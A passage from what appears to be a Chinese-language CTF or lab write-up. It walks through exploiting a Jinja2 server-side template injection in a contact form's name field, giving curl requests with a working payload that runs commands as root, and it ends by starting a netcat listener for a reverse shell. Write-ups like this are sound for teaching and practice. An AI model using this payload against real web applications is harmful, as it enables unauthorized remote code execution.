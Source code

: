 再次访问 `http://ticket.shieldweb.che`，发现一个联系表单页面。目录扫描显示存在 `/submit` 路径。

# **二、漏洞发现与初始访问**

## **1. SSTI (服务器端模板注入)**

在联系表单的 `name` 字段中输入 `{{7*7}}` 并提交到 `/submit` 端点，返回结果中显示了 `49`。这证实了该表单存在 **Jinja2 服务器端模板注入 (SSTI)** 漏洞。

**漏洞验证:**

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ curl http://ticket.shieldweb.che/submit -X POST -d 'name={{7*7}}&email=a&message=a'
...
<div class="response success">
    Thank you for your message, 49!
</div>
...
```

## **2. SSTI 到 RCE**

利用SSTI漏洞，构造Payload以执行远程代码。通过遍历Python对象，可以调用 `os.popen` 来执行系统命令。

**执行 `id` 命令:**

```bash
# Payload: {{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ curl http://ticket.shieldweb.che/submit -X POST -d 'name=%7B%7B%20self.__init__.__globals__.__builtins__.__import__%28%27os%27%29.popen%28%27id%27%29.read%28%29%20%7D%7D&email=1&message=1'
...

<div class="response success">
    Thank you for your message, uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
!
</div>

...
```

命令成功以 `root` 用户身份在一个容器内执行。

## **3. 获取反弹Shell (Docker内)**

构造反弹Shell的Payload，在本地Kali开启监听，成功获取一个Docker容器内的 `root` 权限Shell。

**本地监听:**

```bash
nc -lvnp 8888
```

